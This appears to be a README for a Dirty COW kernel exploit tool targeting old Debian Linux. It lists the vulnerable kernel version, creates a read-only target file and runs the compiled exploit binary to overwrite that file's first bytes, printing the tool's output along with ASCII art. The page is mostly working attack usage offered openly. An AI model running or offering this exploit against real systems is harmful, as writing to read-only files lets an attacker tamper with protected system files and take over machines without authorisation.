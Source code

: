 ## :cow: Vulnerable Kernel  
```
user@debian:~$ cat /etc/issue
Debian GNU/Linux 6.0
user@debian:~$ uname -a
Linux debian 2.6.32-5-686 #1 SMP Sun Sep 23 09:49:36 UTC 2012 i686 GNU/Linux
```

> [!NOTE]
> Dirty COW allowto change bytes on a file that is readonly for the current user. So, you must have readonly access to the file and you can not change the size of the file.


## :question: Help 

<details><summary>Click to expand</summary></details>

## :dart: Target file 

```
user@debian:~$ echo -n 'abcdefghijklm' > target && chmod u-w target
```

## :skull: Write characters to the begin of the file 

```
user@debian:~$ echo -n '12345' | ./trdc-debian-squeeze-386.elf ./target 0 

Main check arguments

data_size: 5 is not a multiple of 4
           I can handle it!
           last data "word" size is 1
           3 bytes of the file was added to last incomplete word
           data_size is now 8

      //@@
     @@-OO)
    @@@ v @    _____
    /  \ / \  |\____\
   /  ( X ) | | |   |
<___=\      | | |   |
      \======\ \|_"_|
                  (____

Turtwig rides DirtyCow

              __
   .,-;-;-,. /'_\
 _/_/_/_|_\_\) /
-<_><_><_><_>=/
 `/_/====/_/-'\_\
  ""     ""    ""

page memory size: 4096
word size: 4
ride lenght: 512
ride interval: 1
madvise interval: 3

ride num: words (1 to do, 0 done)
00000002: 1 1 
...
00000041: 0 0 
```